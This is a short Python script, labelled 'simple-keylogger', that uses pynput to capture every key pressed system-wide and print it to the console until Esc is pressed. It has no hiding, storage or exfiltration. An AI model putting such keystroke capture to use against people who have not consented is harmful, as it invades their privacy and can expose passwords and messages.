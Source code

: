 # simple-keylogger
import pynput
from pynput.keyboard import Key, Listener

def on_press(key):
    try:
        print(f'Key pressed: {key.char}')
    except AttributeError:
        print(f'Special key pressed: {key}')

def on_release(key):
    if key == Key.esc:
        # Stop listener
        return False

# Collect events until released
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
